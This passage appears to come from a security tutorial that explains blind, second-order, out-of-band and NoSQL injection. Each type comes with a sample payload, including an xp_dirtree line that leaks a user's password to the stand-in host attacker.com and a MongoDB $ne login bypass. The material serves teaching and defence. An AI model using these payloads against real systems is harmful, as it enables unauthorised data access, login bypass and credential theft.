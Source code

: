#### 3. Blind SQL Injection

No direct output, but attacker infers information from application behavior.

**Boolean-Based:**
```
Input:  id = 1' AND (SELECT COUNT(*) FROM users) > 10 --

If page behaves normally → COUNT(*) > 10 is true
If page shows error/different → COUNT(*) > 10 is false

Attacker iteratively determines exact count
```

**Time-Based:**
```
Input:  id = 1'; IF (SELECT COUNT(*) FROM users) > 10 WAITFOR DELAY '00:00:05' --

If response delayed by 5 seconds → condition is true
If immediate response → condition is false
```

#### 4. Second-Order SQL Injection

Malicious data stored in database, executed later.

```
Step 1: Register user with username: admin'--
        Stored in database: admin'--

Step 2: Application retrieves username and uses in query (without sanitizing):
        UPDATE users SET last_login = NOW() WHERE username = 'admin'--'

Result: Comments out rest of query, potentially causing issues
```

#### 5. Out-of-Band SQL Injection

Data exfiltrated through alternative channels (DNS, HTTP requests).

**SQL Server Example:**
```sql
'; EXEC master..xp_dirtree '\\attacker.com\' + (SELECT TOP 1 password FROM users) + '.txt' --
```

Result: Database makes DNS/SMB request to `attacker.com`, leaking password in domain name.

#### 6. NoSQL Injection

NoSQL databases also vulnerable to injection.

**MongoDB Example (Vulnerable):**
```javascript
// Vulnerable
db.users.find({
    username: req.body.username,
    password: req.body.password
});

// Attack:
POST /login
{ "username": {"$ne": null}, "password": {"$ne": null} }

// Resulting query finds first user where username and password are not null
```
